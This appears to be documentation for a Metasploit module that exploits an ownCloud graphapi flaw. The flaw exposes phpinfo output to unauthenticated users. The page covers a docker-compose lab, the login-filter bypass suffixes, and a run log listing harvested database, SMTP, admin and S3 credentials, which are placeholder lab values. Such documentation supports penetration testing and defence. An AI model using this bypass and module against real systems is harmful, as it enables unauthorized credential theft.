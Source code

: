 ## Vulnerable Application

Docker containers of ownCloud compiled after February 2023, which have version 0.2.0 before 0.2.1 or 0.3.0 before 0.3.1 of the app `graph` installed
contain a test file which prints `phpinfo()` to an unauthenticated user. A post file name must be appended to the URL to bypass the login filter.
Docker may export sensitive environment variables including ownCloud, DB, redis, SMTP, and S3 credentials, as well as other host information.

### Docker-Compose Build

Using docker-compose we can build a fairly robust system with plenty of information to pilfer.

Based off of [Ron Bowes Blog Post](https://www.labs.greynoise.io//grimoire/2023-11-29-owncloud-redux/)

A list of environment variables is posted [here](https://github.com/owncloud-docker/base/blob/master/ENVIRONMENT.md#environment-variables)

```
version: "3"

services:
  owncloud:
    image: owncloud/server:10.12.1
    container_name: owncloud_server
    restart: always
    ports:
      - 8080:8080
    depends_on:
      - mariadb
      - redis
    environment:
      - OWNCLOUD_DOMAIN=localhost:8080
      - OWNCLOUD_TRUSTED_DOMAINS=localhost
      - OWNCLOUD_DB_TYPE=mysql
      - OWNCLOUD_DB_NAME=owncloud
      - OWNCLOUD_DB_USERNAME=owncloud
      - OWNCLOUD_DB_PASSWORD=owncloud
      - OWNCLOUD_DB_HOST=mariadb
      - OWNCLOUD_ADMIN_USERNAME=admin_username
      - OWNCLOUD_ADMIN_PASSWORD=admin_password
      - OWNCLOUD_MYSQL_UTF8MB4=true
      - OWNCLOUD_REDIS_ENABLED=true
      - OWNCLOUD_REDIS_HOST=redis
      - APACHE_LOG_LEVEL=trace6
      - OWNCLOUD_MAIL_SMTP_PASSWORD=smtp_password
      - OWNCLOUD_MAIL_SMTP_NAME=smtp_username
      - OWNCLOUD_LICENSE_KEY=1122333
      - OWNCLOUD_OBJECTSTORE_KEY=owncloud123456
      - OWNCLOUD_OBJECTSTORE_SECRET=secret123456
      - OWNCLOUD_OBJECTSTORE_REGION=us-east-1
    healthcheck:
      test: ["CMD", "/usr/bin/healthcheck"]
      interval: 30s
      timeout: 10s
      retries: 5

  mariadb:
    image: mariadb:10.11 # minimum required ownCloud version is 10.9
    container_name: owncloud_mariadb
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=owncloud
      - MYSQL_USER=owncloud
      - MYSQL_PASSWORD=owncloud
      - MYSQL_DATABASE=owncloud
      - MARIADB_AUTO_UPGRADE=1
    command: ["--max-allowed-packet=128M", "--innodb-log-file-size=64M"]
    healthcheck:
      test: ["CMD", "mysqladmin", "ping", "-u", "root", "--password=owncloud"]
      interval: 10s
      timeout: 5s
      retries: 5

  redis:
    image: redis:6
    container_name: owncloud_redis
    restart: always
    command: ["--databases", "1"]
    healthcheck:
      test: ["CMD", "redis-cli", "ping"]
      interval: 10s
      timeout: 5s
      retries: 5
```

You may need to add an aditional entry to `OWNCLOUD_TRUSTED_DOMAINS` which has the IP address of the host, such as `OWNCLOUD_TRUSTED_DOMAINS=localhost,192.68.1.1`

If the `graph` app needs to be installed, use the following instructions:

```
docker exec -it owncloud /bin/bash
cd apps
wget "$(curl 'https://marketplace.owncloud.com/ajax/apps/graphapi/0.3.0' | sed 's/\\//g' | cut -d '"' -f 4)" -O graphapi-0.3.0.tar.gz
rm -rf graphapi
tar -zxf graphapi-0.3.0.tar.gz
occ app:enable graphapi
```

## Verification Steps

1. Install the application and plugin
1. Start msfconsole
1. Do: `use auxiliary/gather/owncloud_phpinfo_reader`
1. Do: `set rhost [ip]`
1. Do: `run`
1. You should information from the system configuration

## Options

### ROOT

Root path of the URI, which is different than `TARGETURI` as its ownCloud specific. Defaults to `all` which will try `''` (empty), and `owncloud`

### ENDFILE

The file path to add to the end of hte URL, which is used to bypass filtering. Defaults to `all` which will try `/.css`, `/.js`, `/.svg`,
`/.gif`, `/.png`, `/.html`, `/.ttf`, `/.woff`, `/.ico`, `/.jpg`, `/.jpeg`, `/.json`, `/.properties`, `/.min.map`, `/.js.map`, `/.auto.map`

## Scenarios

### ownCloud 10.12.1 from Docker Compose

```
resource (owncloud.rb)> use auxiliary/gather/owncloud_phpinfo_reader
resource (owncloud.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (owncloud.rb)> set verbose true
verbose => true
resource (owncloud.rb)> run
[*] Running module against 127.0.0.1
[*] Checking: /apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css
[+] Found phpinfo page at: /apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css
[+] Loot stored to: /home/h00die/.msf4/loot/20231203153109_default_127.0.0.1_owncloud.phpinfo_453632.txt
[+] License Key: 1122333
[+] Hostname: b2b16d6f3ba6
[+] Home: /root
[+] Server Root: /var/www/owncloud
[+] PWD: /var/www/owncloud
[+] SMTP Username: smtp_username
[+] SMTP Password: smtp_password
[+] ownCloud Username: admin_username
[+] ownCloud Password: admin_password
[+] DB Host: mariadb:3306
[+] DB Username: owncloud
[+] DB Password: owncloud
[+] DB Name: owncloud
[+] Redis Host: redis
[+] Redis Port: 6379
[+] Objectstore Endpoint: https://s3.us-east-1.amazonaws.com
[+] Objectstore Region: us-east-1
[+] Objectsore Secret: secret123456
[+] Objectstore Key: owncloud123456
[+] Objectstore Bucket: owncloud
[+] Credentials
===========

  Type             Host            Username             Password              Notes
  ----             ----            --------             --------              -----
  S3 Object Store  us-east-1       Key: owncloud123456  Secret: secret123456  Endpoint: https://s3.us-east-1.amazonaws.com, Bucket: owncloud
  SMTP             127.0.0.1:25    smtp_username        smtp_password
  mysql            127.0.0.1:8080  owncloud             owncloud
  ownCloud         127.0.0.1:8080  admin_username       admin_password

[*] Auxiliary module execution completed
```

